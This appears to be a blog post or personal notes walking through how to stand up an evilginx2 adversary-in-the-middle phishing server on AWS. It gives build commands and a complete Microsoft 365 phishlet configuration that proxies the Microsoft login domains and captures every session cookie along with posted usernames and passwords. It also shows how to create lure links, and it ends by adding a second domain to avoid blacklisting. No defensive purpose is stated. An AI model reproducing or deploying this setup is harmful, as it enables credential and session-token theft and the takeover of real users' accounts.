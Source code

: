 ```yaml
---
layout: post
---
```


### Setting up the domain1

### Setting up the nameservers ~ Route53

### Setting up the VPS ~ EC2
Ubuntu free tier <br>
Generate ssh key pair
#### Network Settings
configuring the ssh to local computer ip 

```bash
curl http://ipinfo.io/ip 
```
and http/s and DNS from 0.0.0.0 (anywhere) ~~> Launch

### setting up [evilginx](https://github.com/kgretzky/evilginx2) in instance 

```bash
sudo apt update
#INSATLLING GO
cd ~
curl -OL https://golang.org/dl/go1.21.6.linux-amd64.tar.gz
sha256sum go1.21.6.linux-amd64.tar.gz
sudo tar -C /usr/local -xvf go1.21.6.linux-amd64.tar.gz
sudo nano ~/.profile
### adding this
## export PATH=$PATH:/usr/local/go/bin
source ~/.profile
go version

git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make
sudo ./build/evilginx -p /phishlets/

## help ~~ ## config domain 1 ~~ ## config ipv4
### domain pointing to instance public ip
## setting up the phishlets
## phishlets hostname m365 domain1
## phishlets enable m365
```
### phishlets in my case is m365 

```yaml
min_ver: '3.2.0'
proxy_hosts:
  - {phish_sub: 'login', orig_sub: 'login', domain: 'microsoftonline.com', session:true, is_landing: true}
  - {phish_sub: 'logon', orig_sub: 'login', domain: 'live.com', session: true, is_landing: false}
  - {phish_sub: 'www', orig_sub: 'www', domain: 'office.com', session: true, is_landing: false}
sub_filters:
auth_tokens:
  - domain: '.live.com' #domain that sends the cookie
    keys: ['.*:regexp'] #name of cookie to steal
  - domain: 'live.com'
    keys: ['.*:regexp']
  - domain: '.login.live.com'
    keys: ['.*:regexp']
  - domain: 'login.live.com'
    keys: ['.*:regexp']
  - domain: '.login.microsoftonline.com'
    keys: ['.*:regexp']
  - domain: 'login.microsoftonline.com'
    keys: ['.*:regexp']  
  - domain: '.microsoft.com'
    keys: ['.*:regexp'] 
  - domain: 'microsoft.com'
    keys: ['.*:regexp']
  - domain: '.office.com'
    keys: ['.*:regexp']
  - domain: 'office.com'
    keys: ['.*:regexp']
  - domain: '.www.office.com'
    keys: ['.*:regexp']
  - domain: 'www.office.com'
    keys: ['.*:regexp']
auth_urls:
  - '/landingv2'
credentials:
  username:
    key: 'login'
    search: '(.*)'
    type: 'post'
  password:
    key: 'passwd'
    search: '(.*)'
    type: 'post'
login:
  domain: 'login.microsoftonline.com'
  path: '/' # path to where the login is, on the domain.    
```

### pointing subdomains of domain 1 to phishlets subdomain 

login <br>
logon and <br>
www ~~> to the domain1 ip that is the instance ip running the server

### creating lures in evilginx

```bash
## in evilginx
lures create m365
lures get-url <id>
```
## Adding another domain to prevent BLACKLISTING

 <a href="2023-01-14-Adding-domain2.md">Adding another apache server</a>


 Next part in domain 2

